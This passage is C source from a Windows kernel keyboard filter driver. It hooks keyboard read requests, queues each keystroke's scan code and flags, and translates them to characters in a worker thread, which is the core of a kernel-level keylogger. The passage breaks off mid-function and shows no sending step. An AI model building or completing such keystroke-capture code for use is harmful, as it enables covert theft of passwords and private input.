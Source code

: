 ```c
            struct KEY_DATA * kData = (struct KEY_DATA * ) ExAllocatePool(NonPagedPool, sizeof(struct KEY_DATA));
            kData -> KeyData = (char) keys[i].MakeCode;
            kData -> KeyFlags = (char) keys[i].Flags;
            ExInterlockedInsertTailList( & pzzz -> List, kData, & pzzz -> spin);
            KeReleaseSemaphore( & pzzz -> sem, 0, 1, FALSE);
        }
    }
    DbgPrint("abcReadOver After Semaphore Release numPendingIrps=%d", numPendingIrps);
    if (pIrp -> PendingReturned)
        IoMarkIrpPending(pIrp);
    numPendingIrps--;
    return pIrp -> IoStatus.Status;
}
NTSTATUS abcRead(PDEVICE_OBJECT pDeviceObject, PIRP pIrp) {
    PIO_STACK_LOCATION currentIrpStack = IoGetCurrentIrpStackLocation(pIrp);
    PIO_STACK_LOCATION nextIrpStack = IoGetNextIrpStackLocation(pIrp);
    DbgPrint("abcRead numPendingIrps=%d", numPendingIrps);
    * nextIrpStack = * currentIrpStack;
    IoSetCompletionRoutine(pIrp, abcReadOver, pDeviceObject, TRUE, TRUE, TRUE);
    numPendingIrps++;
    return IoCallDriver(((Pzzz) pDeviceObject -> DeviceExtension) -> pakd, pIrp);
}
VOID abc(PVOID pContext) {
    Pzzz pzzz = (Pzzz) pContext;
    PDEVICE_OBJECT pakd = pzzz -> pakd;
    PLIST_ENTRY pListEntry;
    struct KEY_DATA * kData;
    while (1) {
        char keys[3] = {
            0
        };
        char key = 0;
        KEVENT event = {
            0
        };
        KEYBOARD_INDICATOR_PARAMETERS indParams = {
            0
        };
        IO_STATUS_BLOCK ioStatus = {
            0
        };
        struct KEY_DATA * z;
        NTSTATUS status = {
            0
        };
        int caps, num, scroll;
        PIRP irp;
        DbgPrint("Before Wait for semaphore in thread");
        KeWaitForSingleObject( & pzzz -> sem, Executive, KernelMode, FALSE, NULL);
        DbgPrint("After Wait for semaphore in thread");
        pListEntry = ExInterlockedRemoveHeadList( & pzzz -> List, & pzzz -> spin);
        z = (struct KEY_DATA * ) pListEntry;
        DbgPrint("Scan Code=%d", z -> KeyData);
        if (pzzz -> bThreadTerminate == 1) {
            DbgPrint("Terminating thread");
            PsTerminateSystemThread(STATUS_SUCCESS);
        }
        kData = CONTAINING_RECORD(pListEntry, struct KEY_DATA, ListEntry);
        key = KeyMap[kData -> KeyData];
        KeInitializeEvent( & event, NotificationEvent, FALSE);
        irp = IoBuildDeviceIoControlRequest(IOCTL_KEYBOARD_QUERY_INDICATORS, pzzz -> pakd, NULL, 0, & indParams, sizeof(KEYBOARD_ATTRIBUTES), TRUE, & event, & ioStatus);
```